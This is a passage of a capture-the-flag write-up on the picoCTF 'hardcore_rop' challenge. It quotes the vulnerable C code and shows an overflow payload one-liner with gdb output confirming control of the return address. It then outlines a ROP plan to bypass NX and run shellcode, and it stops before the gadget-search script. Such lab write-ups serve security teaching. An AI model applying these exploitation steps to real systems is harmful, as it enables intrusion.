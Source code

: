 The `randop()` function is interesting, because it does two things. Firstly, this bit builds random ROP gadgets:

```c
	munmap((void*)0x0F000000, MAPLEN);
	void *buf = mmap((void*)0x0F000000, MAPLEN, PROT_READ|PROT_WRITE, MAP_ANON|MAP_PRIVATE|MAP_FIXED, 0, 0);
	unsigned seed;
	if(read(0, &seed, 4) != 4) return;
	srand(seed);
	for(int i = 0; i < MAPLEN - 4; i+=3) {
		*(int *)&((char*)buf)[i] = rand();
		if(i%66 == 0) ((char*)buf)[i] = 0xc3;  
	}
	mprotect(buf, MAPLEN, PROT_READ|PROT_EXEC);
```

The memory region containing the random ROP gadgets is set to executable. However, we control the seed value, so we can "choose" which gadgets are generated. Secondly, this function causes a buffer overflow thanks to the following code:

```c
	size_t x, count = 0;
	do x = read(0, ((char*)&seed)+count, 555-count);
	while(x > 0 && (count += x) < 555 && ((char*)&seed)[count-1] != '\n');
```

This function starts to overwrite the stack up to the point were the saved return address is. Very nice! First, let's enable coredumps and get control of EIP.

```bash
bas@tritonal:~/tmp/picoctf/hardcorrop$ (echo 7777; python -c 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB"') | ./hardcore_rop `pwd`
yo, what's up?
ROP time!
Segmentation fault (core dumped)
bas@tritonal:~/tmp/picoctf/hardcorrop$ gdb hardcore_rop core
GNU gdb (GDB) 7.4.1-debian
...
Core was generated by `./hardcore_rop /home/bas/tmp/picoctf/hardcorrop'.
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
```

Excellent! After we send a seed value (7777), we supply a buffer that overwrites the saved return address on the stack. But we cannot just put our shellcode on the stack and execute it, because of NX. We can't write into the region at `0xf000000` because it isn't writeable. Furthermore, most of the address are randomized due to PIE and ALSR. Only the ROP gadgets at `0xf000000` are always at the same location. We need to find enough ROP gadgets to make the region at `0xf000000` writeable, so that we can store shellcode there and execute it. 

For this to work, we need two things: control over registers and an `int 0x80` instruction, to execute syscalls. The region at `0xf000000` contains 40960 bytes, filled with random ROP gadgets. There could be an `int 0x80; ret;` in there. The chances are slim, but there's a chance nonetheless. I scripted the search for ROP gadgets with the following:

